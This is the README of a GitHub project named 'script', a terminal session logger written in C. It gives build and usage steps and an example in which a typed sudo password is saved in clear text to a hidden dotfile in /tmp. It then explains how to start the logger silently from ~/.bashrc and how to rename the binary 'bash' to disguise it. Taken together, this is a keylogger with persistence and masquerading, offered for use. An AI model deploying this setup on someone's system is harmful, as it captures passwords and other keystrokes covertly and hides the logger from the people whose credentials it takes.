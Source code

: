 # script

script

## Build
1. download files
```
git clone https://github.com/shuichiro-endo/script.git
```
2. compile
```
cd script
gcc script.c -o script
```

## Usage
- run
```
cd script
./script
```

- example
> [!NOTE]
> The log file is created in the /tmp directory by default.
```
$ ./script
$ sudo ls
[sudo] password for test: 
README.md  script  script.c  script.h
$ exit

$ cd script
$ ls -la
total 48
drwxr-x---  2 test test  4096 Nov  2 12:26 .
drwxr-xr-x 14 test test  4096 Nov  2 12:21 ..
-rw-r--r--  1 test test   129 Nov  2 12:26 .2433.txt
-rwxr-x---  1 test test  1701 Nov  2 12:21 README.md
-rwxr-xr-x  1 test test 17208 Nov  2 12:22 script
-rwxr-x---  1 test test  8053 Nov  2 12:21 script.c
-rwxr-x---  1 test test    67 Nov  2 12:21 script.h
$ cat .2433.txt
$ ssuuddoo  llss
[sudo] password for test: hypersupersecretpassword
README.md  script  script.c  script.h
$ eexxiitt
$ hexdump -C .2433.txt
00000000  24 20 73 73 75 75 64 64  6f 6f 20 20 6c 6c 73 73  |$ ssuuddoo  llss|
00000010  0d 0d 0a 5b 73 75 64 6f  5d 20 70 61 73 73 77 6f  |...[sudo] passwo|
00000020  72 64 20 66 6f 72 20 74  65 73 74 3a 20 68 79 70  |rd for test: hyp|
00000030  65 72 7f 7f 7f 7f 7f 73  75 70 65 72 73 65 63 72  |er.....supersecr|
00000040  65 74 70 61 73 73 77 6f  72 64 0d 0d 0a 52 45 41  |etpassword...REA|
00000050  44 4d 45 2e 6d 64 20 20  73 63 72 69 70 74 20 20  |DME.md  script  |
00000060  73 63 72 69 70 74 2e 63  20 20 73 63 72 69 70 74  |script.c  script|
00000070  2e 68 0d 0a 24 20 65 65  78 78 69 69 74 74 0d 0d  |.h..$ eexxiitt..|
00000080  0a                                                |.|
00000081
$ 
```

## Notes
### How to change log file directory
1. modify script.c file
```
static char *logfile_directory = "/tmp";
```
2. compile
```
cd script
gcc script.c -o script
```

### How to run my script program when starting a terminal
- ~/.bashrc
  - sample1
  ```
  trap "rm -rf /tmp/.foobar; exit;" SIGHUP
  if [ ! -f /tmp/.foobar ]; then
      touch /tmp/.foobar
      ~/script/script    # my script program
  fi
  ```
  - sample2
  ```
  result=`pstree -p -t -T | grep $$ | grep "script"`
  if [ -z "$result" ]; then
      ~/script/script    # my script program
  fi
  ```

### When changing the file name to shell name (e.g. bash)
1. change the file name to shell name
```
cd script
mv script bash
```
2. modify ~/.bashrc file
```
result=`pstree -p -t -T | grep $$ | grep -io "bash" | wc -l`
if [ "$result" -eq 2 ]; then
    ~/script/bash    # my script program
fi
```

## License
This project is licensed under the MIT License.

See the [LICENSE](https://github.com/shuichiro-endo/script/blob/main/LICENSE) file for details.
